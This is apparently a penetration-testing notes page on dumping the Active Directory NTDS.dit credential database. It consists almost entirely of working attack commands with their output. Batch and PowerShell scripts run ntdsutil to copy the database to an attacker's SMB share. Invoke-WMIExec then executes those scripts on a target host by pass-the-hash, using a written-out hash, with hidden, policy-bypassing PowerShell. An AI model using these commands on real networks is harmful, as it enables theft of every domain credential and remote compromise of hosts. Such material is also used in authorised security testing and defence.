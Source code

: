 ## Dump NTDS.dit file:

How Attackers Dump Active Directory Database Credentials: https://adsecurity.org/?p=2398

How-to-dump-windows2012-credentials: https://github.com/nixawk/pentest-wiki/blob/master/4.Post-Exploitation/Windows_ActiveDirectory/How-to-dump-windows2012-credentials.md

Invoke-TheHash: https://github.com/Kevin-Robertson/Invoke-TheHash

### Make sure `temp` folder in SMB share is writable and empty before NTDSUtil tries writing to it

### Using batch script:
```
root@kali:/mnt/smb_share/temp# cat ../exp.bat 
ntdsutil "ac i ntds" "ifm" "create full \\192.168.136.128\kali_smb_share\temp" q q

PS C:\> Invoke-WMIExec -verbose -Domain test.local -Username master -Hash 4557b6a0a22dc7cafd03c4a40e77f7e1 -Target 192.168.136.130 -Command "cmd /c \\192.168.136.128\kali_smb_share\exp.bat"
VERBOSE: Connecting to 192.168.136.130:135
VERBOSE: WMI reports target hostname as WIN-PJNUFB8U83P
VERBOSE: test.local\master accessed WMI on 192.168.136.130
VERBOSE: Using WIN-PJNUFB8U83P for random port extraction
VERBOSE: Connecting to 192.168.136.130:49154
VERBOSE: Attempting command execution
Command executed with process ID 3116 on 192.168.136.130
```

### Using powershell script:
```
root@kali:/mnt/smb_share/temp# cat ../exp.ps1 
$A = Invoke-Expression 'ntdsutil "ac i ntds" "ifm" "create full \\192.168.136.128\kali_smb_share\temp" q q' -ErrorVariable $B -WarningVariable $C -Verbose
Out-File -FilePath \\192.168.136.128\kali_smb_share\temp\out.log -InputObject $A -Encoding ASCII
Out-File -FilePath \\192.168.136.128\kali_smb_share\temp\error.log -InputObject $B -Encoding ASCII
Out-File -FilePath \\192.168.136.128\kali_smb_share\temp\warning.log -InputObject $C -Encoding ASCII

PS C:\> Invoke-WMIExec -verbose -Domain test.local -Username master -Hash 4557b6a0a22dc7cafd03c4a40e77f7e1 -Target 192.168.136.130 -Command "powershell -NoP -sta -NonI -W Hidden -Exec bypass -File \\192.168.136.128\kali_smb_share\exp.ps1"
VERBOSE: Connecting to 192.168.136.130:135
VERBOSE: WMI reports target hostname as WIN-PJNUFB8U83P
VERBOSE: test.local\master accessed WMI on 192.168.136.130
VERBOSE: Using WIN-PJNUFB8U83P for random port extraction
VERBOSE: Connecting to 192.168.136.130:49154
VERBOSE: Attempting command execution
Command executed with process ID 3128 on 192.168.136.130
```
